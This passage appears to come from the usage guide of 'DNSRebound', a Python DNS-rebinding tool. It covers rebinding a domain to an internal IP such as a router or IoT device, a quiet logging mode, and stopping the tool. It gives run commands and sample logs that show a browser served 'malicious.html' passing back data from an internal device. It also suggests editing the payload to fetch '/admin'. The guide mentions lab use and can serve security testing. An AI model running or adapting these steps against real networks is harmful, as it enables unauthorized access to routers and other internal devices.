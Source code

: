 #### 2. Targeting a Specific Internal IP
**What It Does**: Rebind to a specific internal IP, like a router or IoT device.
**How to Use**:
1. Identify the target IP (e.g., `192.168.1.254` for a device).
2. Run:
   ```bash
   sudo python3 dnsrebound.py -i eth0 -d rebind.local -t 192.168.1.254
   ```
**What Happens**:
- The DNS server rebinds to the specified IP:
  ```
  2025-05-15 10:35:00 - Starting DNSRebound: Domain=rebind.local, Public IP=203.0.113.1, Target IP=192.168.1.254
  2025-05-15 10:35:02 - DNS: rebind.local -> 192.168.1.254 (Request #2)
  2025-05-15 10:35:03 - Web: Received data from 192.168.1.100: Attempt 1: <html><body>IoT Device</body>...
  ```
**Tips**:
- Use `nmap` or `arp -a` to find device IPs in your lab.
- Verify the target has a web interface (e.g., `curl http://192.168.1.254`).
- Modify `malicious.html` for specific payloads (e.g., fetch `/admin`).

#### 3. Quiet Mode
**What It Does**: Reduces terminal output, logging only to the file.
**How to Use**:
1. Enable quiet mode:
   ```bash
   sudo python3 dnsrebound.py -i eth0 -d rebind.local -q
   ```
**What Happens**:
- No terminal output; logs go to `dnsrebound.log`:
  ```
  $ sudo python3 dnsrebound.py -i eth0 -d rebind.local -q
  [No output]
  ```
- Log file example:
  ```
  2025-05-15 10:40:00 - Starting DNSRebound: Domain=rebind.local, Public IP=203.0.113.1, Target IP=192.168.1.1
  2025-05-15 10:40:01 - DNS: rebind.local -> 203.0.113.1 (Request #1)
  2025-05-15 10:40:02 - Web: Served malicious.html to 192.168.1.100
  ```
**Tips**:
- Check logs with `cat dnsrebound.log` or `tail -f dnsrebound.log`.
- Useful for background testing.

#### 4. Stopping the Tool
**What It Does**: Stops the servers and saves logs when done or interrupted.
**How to Use**:
1. Start the attack:
   ```bash
   sudo python3 dnsrebound.py -i eth0 -d rebind.local
   ```
2. Press `Ctrl+C` to stop.
**What Happens**:
- The tool stops, saves logs, and cleans up:
  ```
  2025-05-15 10:45:00 - Starting DNSRebound: Domain=rebind.local, Public IP=203.0.113.1, Target IP=192.168.1.1
  ^C
  2025-05-15 10:45:01 - DNSRebound stopped by user
  2025-05-15 10:45:01 - Results saved to dnsrebound_results_20250515_104501.txt
  2025-05-15 10:45:01 - Cleaned up servers
  ```
**Tips**:
- Always stop the tool to free ports.